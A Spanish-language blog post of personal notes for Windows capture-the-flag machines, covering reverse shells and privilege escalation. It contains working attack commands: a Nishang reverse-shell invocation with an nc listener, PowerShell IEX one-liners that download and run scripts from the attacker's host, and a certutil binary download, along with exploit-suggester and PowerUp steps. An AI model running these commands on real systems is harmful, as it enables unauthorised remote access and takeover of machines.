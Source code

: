 ```yaml
---
layout: post
title: "Apuntes Maquinas Windows"
subtitle: 'apuntes recopilados para cada una de las maquinas windows que voy haciendo'
date: 2020-08-12 12:00:00
author: "TheusZero"
header-img: "images/post/windows/windowsApuntes.png"
catalog: true
comments: true
tags:
  - Windows
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


## Links Ricolinos

[Optium-HackTheBox](https://www.youtube.com/watch?v=fIGvOGrdxyc&list=PLlb2ZjHtNkpiSbrOfeRASNsvpHD6bEWoA)
[]()

## PowerShell
[powershells para windows](https://github.com/samratashok/nishang)

#### Pasos para invocar una una powerShell Manual
> recordar usar nc -nlvp port

> nishang/shells/Invoke_PowerShellTCP.ps1 

> colocar esto al final del invoke powershell **Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 443**

> abrir un SimpleHTTPServer en el puerto 8000

> dentro de la maquina, escribir: ```start /b powershell IEX(New-Object Net.webClient).downloadString('http://MyIpAdrress:8000/Invoke_PowerShellTCP.ps1')```
>> esto ejecutara e interpretara el archivo ps1

ahora, cuando ya tenemos acceso con la powerShell debemos obtener un reconocimiento del sistema, debido a la utilizacion de la powershell no segura y de manera bruta podemos obtener una cantidad grande de *falsos positivos*, por eso mismo intentaremos jugar con comandos del sistema para asi poder acceder a una verdadera forma de escalar privilegios.

```Python
[Environment]::Is64BitsOperatingSystem
```

```Python
[Environment]::Is64BitsProcess
```
> si es falso, este proceso de shell es de 32bits, por lo que tenemos que migrar a mano a un proceso de 64 bits si o si debemos migrar

```start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://MyIpAdrress:8000/Invoke_PowerShellTCP.ps1')```
con esto logramos crear una powerShell que trabaje en 64bits, por lo que volvemos a lanzar un netcat para obtener la reverse shell otra vez

> preguntamos otra vez :
>> ```[Environment]::Is64BitsProcess```

una vez que es true podemos continuar y no van a darnos falsos positivos

## Privesec

#### windows suggester
[windows exploit suggester bacan](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

> python windows-exploit-suggester.py --update

> instalar python-xlrd con sudo apt-get install 

> python windows-exploit-suggester.py --database (archivo que se creo) --systeminfo systeminfo.txt (archivo que creamos)

**ir de arriba hacia abajo en los exploits que encontro**

[weseng](https://github.com/bitsadmin/wesng)

se copia todo el output en un archivo .txt y se ejecuta el comando o binario del wesng

#### powerSploit
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

powersploit tiene un modulo para el privesec llamado **PowerUp.ps1**

> mismo principio de la powershell, se coloca esta linea al final del documento
```Python
Invoke-AllChecks
```

luego:

```Python
IEX(New-Object Net.WebClient).downloadString('http://myIp:8000/PowerUp.ps1')
```

## subir archivos binarios y ejecturlos en la maquina

> abrir un SimpleHttpServer para el binario

> en la maquina escribir
>> ```certutil.exe -f -urlcache -split http://myIpAdress/theBinary.exe thebinary.exe```